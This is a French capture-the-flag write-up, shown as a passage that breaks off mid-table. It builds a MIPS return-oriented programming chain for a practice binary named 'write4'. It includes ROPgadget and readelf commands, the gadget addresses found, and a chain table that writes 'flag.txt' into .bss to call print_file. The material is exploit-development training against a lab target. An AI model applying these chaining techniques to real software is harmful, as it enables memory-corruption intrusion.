 On retient la section section bss de taille 16.

## Construction de la chaine de ROP

### Recherche d'un gadget d'ecriture

En recherchant un gadget avec l'instruction sw :

    ROPgadget --binary write4_mipsel --depth 5|grep sw
    ...
    0x00400930 :
On retrouve le gadget présent dans la référence `usefulGadget`.

Le gadget permet

- lw t9, 0xc(sp)    de charger t9 en vu du jump en fin de gadget
- lw t0, 8(sp)      de charger une adresse cible dans `t0`
- lw t1, 4(sp)      de charger une valeur dans `t1`
- sw t1, (t0)       d'ecrire cette valeur dans `t0`
- jalr t9           enfin d'appeller l'adresse chargée dans `t9`
- addi sp, sp, 0x10   en incrémentant la pile de 16 donc 4 mots.

### Recherche d'ungadget de chargement a0

On peut recherche un gadget lw (load word).

    # ROPgadget --binary write4_mipsel --depth 5|grep "lw \$a0"
    0x00400944 : addi $sp, $sp, 0x10 ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400940 : jalr $t9 ; addi $sp, $sp, 0x10 ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
    0x00400948 : lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

Et on trouve celui de la référence `usefulGadget`

### La chaine de ROP

Nous avons besoin de l'adresse de print_file dans la PLT

    # readelf --dyn-syms write4_mipsel |grep print_file
    16: 00400a90     0 FUNC    GLOBAL DEFAULT  UND print_file

La chaine est constituée de trois étape

- ecriture de "flag" dans .bss
- ecriture de ".txt" dans .bss+4
- appel de printf(@bss)


| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| | | Ecriture de flag dans .bss
| 0x00400930 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10 |
| 0xdeadbeef | | junk |
| 0x67616c66 | 'flag' | pour `t1
| 0x00001064 | @.bss | pour `t0`
| 0x00400930 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10  | Pour `t9` en vue d'ecrire la seconde partie
| | | Ecriture de ".txt"" dans .bss+4
| 0xdeadbeef | | junk |
| 0x7478742e | '.txt' | pour `t1`